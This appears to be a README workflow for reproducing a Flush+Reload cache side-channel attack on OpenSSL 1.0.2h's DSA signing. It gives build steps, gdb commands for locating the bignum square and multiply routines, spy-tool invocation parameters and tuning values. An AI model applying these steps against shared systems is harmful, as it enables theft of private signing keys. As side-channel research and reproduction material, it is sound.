 ### Workflow
Download OpenSSL 1.0.2h source code from https://www.openssl.org/source/old/1.0.2/ \
Go to the installation directory and run ./config. Do not run make depend at this point\
Open Makefile and add -g to the end of the line containg CFLAG=.....\
'''make depend'''\
'''make'''\
'''sudo make install'''\
Copy the given flushreload.c and plot.py in the flush-reload-attacks/flush-reload/myversion and redirect to this folder\
Run '''make''' in the above folder\
Run gdb, then run command file /usr/local/ssl/bin/openssl to load debugging symbols\
Run '''break bn_sqr8x_mont''' inside gdb and note the virtual address printed(V1)\
Run '''break bn_mul4x_mont''' inside gdb and note the virtual address printed(V2)\
Now run '''./spy -e /usr/local/ssl/bin/openssl -p S:V1 -p M:V2 -s 256 -t 80 | python3 plot.py'''\
In another terminal, run '''/usr/local/ssl/bin/openssl dgst -dss1 -sign ~/dsa.pem -out ~/lsb-release.sig /etc/lsb-release'''

For performance degradation:\
Breaking on Lsqr4x_shift_n_add, L8x_reduce, L1st4x, Louter4x, Lsqr4x_inner, Linner4x


### Ideal parameters
Threshold : 80\
Slot size : 2048